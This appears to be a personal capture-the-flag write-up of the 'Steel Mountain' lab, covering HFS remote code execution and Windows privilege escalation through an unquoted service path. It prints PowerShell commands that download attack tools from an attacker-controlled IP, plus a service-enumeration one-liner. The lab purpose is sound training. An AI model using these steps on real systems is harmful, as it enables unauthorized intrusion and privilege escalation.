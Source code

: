 ```yaml
---
title: 'Steel Mountain'
tags:
- writeups
---
```


## Recon
![[Pasted image 20220821035650.png]]
- on `80` we're greeted with this => we can answer *"who's the employee of the month"*
	- ![[Pasted image 20220821035600.png]]
- on `8080` we have a file server, but with nothing in it. Couldn't get anywhere by trying to login
	- ![[Pasted image 20220821035833.png]]
- tried doing some enumeraation on smb as well with `enum4linux` but nothing came out
- however, looking back at the `httpd` version, which seems quite outdated, running on `8080` reveals [this exploit](https://www.exploit-db.com/exploits/39161)
 
## Init Access
So we know we have a vulnerable endpoint to RCE due to a poor regex in the file `ParserLib.pas`. It achieves this by leveraging the HFS scripting commands by using `'%00'` to bypass the filtering. We could use the metasploit module `exploit/windows/http/rejetto_hfs_exec`, but since we already got the python script let's just try that. 

It's specifying that we need to serve [nc.exe](https://github.com/int0x33/nc.exe/), so I spun up a python http server: `python -m http.server 80`, change the ip & port inside the script and just ran it:

![[Pasted image 20220821041339.png]]

## Privesc w Unquoted Service Path
They insist on enumerating the machine using [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) so I did that, but also ran [winPeas](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASbat/winPEAS.bat).
```bash
powershell -Command Invoke-WebRequest -Uri http://10.18.12.227/PowerUp.ps1 -OutFile pup.ps1
powershell -Command Invoke-WebRequest -Uri http://10.18.12.227/winPeas.bat -OutFile wpes.bat
```

```batch
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Both detect the usage of [[Unqoted Service Paths]] which can lead to privilege escalation by replacing the legitimate service with our own. Also note the `CanRestart: true` option. This will trigger our infected program & will get us a system shell

![[Pasted image 20220821044432.png]]

First we gotta generate the malicious service & upload to target *([Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2))*

![[Pasted image 20220821044954.png]]

 From here we need to determine where do we put this. We know that our service is in `C:\Program Files (x86)\IObit\Advanced SystemCare\` => anywhere before it should work. Since in `Program Files (x86)` we don't have write access, the most convenient option is in `IObit`. Then we setup our listener & restart the service
 
 ![[Pasted image 20220821051303.png]]

![[Pasted image 20220821051411.png]]


## Refs
- [Windows Privilege Escalation - Unquoted Service Path](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

## See Also
- [[sheets/Unqoted Service Paths]]
- [[write-ups/THM]]